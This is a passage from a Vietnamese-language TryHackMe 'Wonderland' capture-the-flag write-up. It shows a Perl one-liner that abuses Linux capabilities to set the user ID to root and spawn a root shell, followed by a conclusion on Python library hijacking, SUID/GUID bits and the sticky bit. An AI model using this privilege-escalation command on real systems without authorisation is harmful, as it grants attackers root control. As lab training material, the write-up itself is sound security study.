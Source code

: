 ![perl capabilities](/assets/img/2021-11-30-THM-Wonderland/8.webp)

```python
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# ls /root
user.txt
```

Cuối cùng là lấy *user flag* và *root flag* thì nằm trong thư mục *alice*.

## Conclusion

Tổng kết về bài thì phần thu thập thông tin cũng không có gì nhiều và tập trung chủ yếu vào việc nâng cao kỹ năng leo thang đặc quyền trên linux. Và tôi biết thêm 1 cách khai thác lỗi mới thông qua các thư viện python - __Python Library Hijacking__. Nó sẽ rất hữu ích với các tệp lệnh python được chạy với đặc quyền cao.

Ngoài ra, trong khi tìm hiểu về *SUID* và *GUID*, tôi biết thêm được 1 kiểu phân quyền nữa là *sticky bit*. Trong 1 vài trường hợp, nó cũng khá hữu ích để khai thác trong việc đọc hay ghi file với đặc quyền được chỉ định cụ thể.

Đọc thêm: [Sticky bit](https://www.thegeekstuff.com/2013/02/sticky-bit/)

Đọc thêm: [Linux Capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
